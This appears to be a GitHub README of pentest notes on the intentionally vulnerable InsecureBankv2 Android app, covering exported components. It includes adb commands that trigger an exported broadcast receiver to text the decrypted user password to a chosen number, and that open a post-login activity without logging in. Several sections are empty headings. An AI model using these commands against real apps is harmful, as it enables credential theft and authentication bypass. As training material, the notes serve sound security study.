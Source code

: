 - [Manifest}(#Mainfest)
  - [Debug Mode](#Debug)
  - [Backup](#Backup)
- [Broadcast Receiver](#BroadcastReceiver)
  - [Broadcast Receiver Discription](#Broadcast_receiver_description)
  - [Exported Broadcast Receiver](#Exported_broadcast_receiver)
    - [AndroidManifest declaration](#AndroidManifest.xml)
    - [Method code implementation](#method_code)
    - [ADB exploitation](#adb_exploitaion)
- [Activity](#Activity)
  - []()
    []()
  - [Exported Activity Bypassing](#Exported_activity_bypassing)
    - [Manifset](#Manifset)

# Manifest

## Debug

## Backup
------------------------------------------------------------------------------------------------------------------------
# BroadcastReceiver

## Broadcast_receiver_description
Broadcast receivers are designed to listen to system wide events called broadcasts (e.g. network activity, application updates, etc.) and then trigger something if the broadcast message matches the current parameters inside the Broadcast Receiver

## Exported_broadcast_receiver

### AndroidManifest.xml
```
<receiver android:name="com.android.insecurebankv2.MyBroadCastReceiver" android:exported="true">
            <intent-filter>
                <action android:name="theBroadcast"/>
            </intent-filter>
        </receiver>
```
### method_code
```
public void onReceive(Context context, Intent intent) {
        String phn = intent.getStringExtra("phonenumber");
        String newpass = intent.getStringExtra("newpass");
        if (phn != null) {
            try {
                SharedPreferences settings = context.getSharedPreferences("mySharedPreferences", 1);
                this.usernameBase64ByteString = new String(Base64.decode(settings.getString("EncryptedUsername", null), 0), "UTF-8");
                String decryptedPassword = new CryptoClass().aesDeccryptedString(settings.getString("superSecurePassword", null));
                String textPhoneno = phn.toString();
                String textMessage = "Updated Password from: " + decryptedPassword + " to: " + newpass;
                SmsManager smsManager = SmsManager.getDefault();
                System.out.println("For the changepassword - phonenumber: " + textPhoneno + " password is: " + textMessage);
                smsManager.sendTextMessage(textPhoneno, null, textMessage, null, null);
            } catch (Exception e) {
                e.printStackTrace();
            }
        } else {
            System.out.println("Phone number is null");
        }
    }
```
### adb_exploitaion
```
am broadcast -a theBroadcast -n com.android.insecurebankv2/com.android.insecurebankv2.MyBroadCastReceiver –es phonenumber 0123456789 –es newpass Test_pass123!
```
-------------------------------------------------------------------------------------------------------------------------------
# Activity

## Exported_activity_bypassing

### Manifset
```
<activity android:label="@string/title_activity_post_login" 
android:name="com.android.insecurebankv2.PostLogin" android:exported="true"/>

Bypassing: adb shell am start -n com.android.insecurebankv2/com.android.insecurebankv2.PostLogin
```
